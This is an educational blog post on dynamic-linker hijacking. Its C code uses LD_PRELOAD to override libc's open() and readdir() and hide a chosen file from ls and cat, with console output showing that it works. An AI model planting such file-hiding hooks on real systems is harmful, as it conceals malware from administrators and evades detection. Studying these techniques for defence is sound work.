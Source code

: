 ```yaml
---
title: "Dynamic Linker Hijacking Experiments - Evasive Techniques (Part 2)"
date: 2022-10-04T21:45:03+03:00
draft: false
---
```


![cover](/dyn-link-hijack/dynlinkhijack.png)

## Series

1. [Dynamic Linker Hijacking Experiments - Evasive Techniques (Part 1)]({{< ref "/posts/dynamic-linker-hijacking-experiments.md" >}})
2. (this one)
3. [Using DNS as C2 Communication - Evasive Techniques (Part 3)]({{< ref "/posts/DNS-c2-communcation.md" >}})

## Journey Post
This post is a something that I call "journey post", this follows my process of researching and implementing the solution for the problem (or the challenge). I will wrap/pre-fix parts of the post with html-like `<journey>` so that you can skip it if you are in a hurry.

<hr />

## Overview

In the last post I've described how I hid a file from all the sys calls that are using `readdir`. In this post I will try to hide it from the `cat` command. Let's first examine/reverse engineer how the `cat` command works internally.

Naturally I would start with a simple [strace](https://man7.org/linux/man-pages/man1/strace.1.html) which will trace the system calls and signals that the command uses. 

```console
$ which cat
/usr/bin/cat
$ strace /usr/bin/cat syl.lys
execve("/usr/bin/cat", ["/usr/bin/cat", "syl.lys"], 0x7ffca9c17508 /* 68 vars */) = 0
...
access("/etc/ld.so.preload", R_OK) = -1 ENOENT (No such file or directory) // WINK WINK, not yet
...
openat(AT_FDCWD, "syl.lys", O_RDONLY) = 3
```

The most interesting sys call in the output is `openat` so lets see the source code of [openat.c](https://github.com/coreutils/gnulib/blob/master/lib/openat.c#L182). Here we can see the `char const *file` that variable is what holds our filename (look at the `strace` output). After that, I followed our steps in the last [post](dynamic-linker-hijacking-experiments) by implementing a function with the same signature and wrapping the original one. 

`<journey>`


After a few tries I was quick to realize that there is some issue. The wrapper that I've implemented didn't work, or at least didn't work all the time. I've tested it out with a simple program that would just call it and in there it worked, I didn't quite get why it does what it does but I found the following discussions:

- [intercepting the openat() system call for GNU tar](https://stackoverflow.com/questions/9161116/intercepting-the-openat-system-call-for-gnu-tar)
- [How to find out what functions to intercept with LD_PRELOAD?](https://stackoverflow.com/questions/49314057/how-to-find-out-what-functions-to-intercept-with-ld-preload)

As it turns out (my best guess) the sys call that I am trying to override `openat` is probably not the one that the `cat` uses. I decided to look at the source code for [cat.c][https://github.com/coreutils/coreutils/blob/master/src/cat.c] and search for everything that has `*open*` in it.

I found on [line 686](https://github.com/coreutils/coreutils/blob/master/src/cat.c#L686) a call to the `open`. An important note here is that this `open` call here is not the sys call but the call in the std lib which will call the related system call for us. So I've decided to change my approach and override the `open` function instead.

`</journey>`

How does the [open function](https://man7.org/linux/man-pages/man2/open.2.html) work? I wouldn't try to explain something that I am hardly good at so it is best for you to read the man pages for that one.

Let's start by copying the signature of the [open function](https://github.com/coreutils/gnulib/blob/master/lib/open.c#L59) and wrap it.

```c
static int (*original_open)(const char *filename, int flags, ...) = NULL;

int open (const char *filename, int flags, ...)
{
    original_open = dlsym(RTLD_NEXT, "open");
    return original_open(filename, flags);
}
```

In this code block I've wrapped the original `open` function with our implementation of the `open` function. What is left now is to add our "malicious" part to it.

```c
if (strcmp(filename, MALICIOUS_FILE) == 0) 
{
    errno = ENOENT; // Setting up the error to be ERROR NO ENTRY(ENOENT)
    return -1; // Returning -1 (failure)
}
```

And lastly all together

[intercept_open.c](https://github.com/syrull/evasive_techniques/blob/main/Part_2_open/intercept_open.c)
```c
#define _GNU_SOURCE

#include <fcntl.h>
#include <dlfcn.h>
#include <string.h>
#include <stdio.h>
#include <errno.h>

#define MALICIOUS_FILE "syl.lys"

static int (*original_open)(const char *filename, int flags, ...) = NULL;

int open (const char *filename, int flags, ...)
{   
    if (strcmp(filename, MALICIOUS_FILE) == 0) 
    {
        errno = ENOENT;
        return -1;
    }
    original_open = dlsym(RTLD_NEXT, "open");
    return original_open(filename, flags);
}
```

Let's see if its working...

```console
$ ls
intercept_open.so  syl.lys
$ LD_PRELOAD=./intercept_open.so cat syl.lys
cat: syl.lys: No such file or directory
```

As you can see the `cat` command returns `No such file or directory` which is exactly what we are aiming for.

## Combining it with our `readdir`

We created a malicious `open` function that wraps the original one from the standard lib, lets now combine it with the `readdir` from the previous post into a single shared object.

[malicious.c](https://github.com/syrull/evasive_techniques/blob/main/Part_2_open/malicious.c)
```c
#define _GNU_SOURCE

#include <fcntl.h>
#include <dlfcn.h>
#include <string.h>
#include <stdio.h>
#include <errno.h>
#include <dirent.h>

#define MALICIOUS_FILE "syl.lys"

static int (*original_open)(const char *filename, int flags, ...) = NULL;
struct dirent *(*original_readdir)(DIR *dirp) = NULL;

int open (const char *filename, int flags, ...)
{
    if (strcmp(filename, MALICIOUS_FILE) == 0) 
    {
        errno = ENOENT;
        return -1;
    }
    original_open = dlsym(RTLD_NEXT, "open");
    return original_open(filename, flags);
}

struct dirent *readdir(DIR *dirp) 
{
    struct dirent *ret;
    original_readdir = dlsym(RTLD_NEXT, "readdir");

    while((ret = original_readdir(dirp))) {
        if(strstr(ret->d_name, MALICIOUS_FILE) == 0)
            break;
    }
    return ret;
}
```

Let's test it out, supposedly we shouldn't get entries from `ls` and `cat`.

```console
$ touch syl.lys
$ ls
intercept_open.c  malicious.c  malicious.so  syl.lys
$ export LD_PRELOAD=./malicious.so
$ ls
intercept_open.c  malicious.c  malicious.so  README.md
$ cat syl.lys
cat: syl.lys: No such file or directory
```

# End
With that I am concluding this post, again if you reached here thank you so much it means a lot! In the next part I will get deeper and make our malicious file to be running and beaconing a malicious C2 server, we will look through some C2 communication examples using the DNS protocol so that we can remain under the radar(or the firewall ^^).

[Full Source Code](https://github.com/syrull/evasive_techniques/tree/main/Part_2_open)

# Resources

This post wouldn't be possible without:

- https://0xax.gitbooks.io/linux-insides/content/SysCall/linux-syscall-5.html
- https://linux.die.net/man/2/openat
- And some kind StackOverflow users! 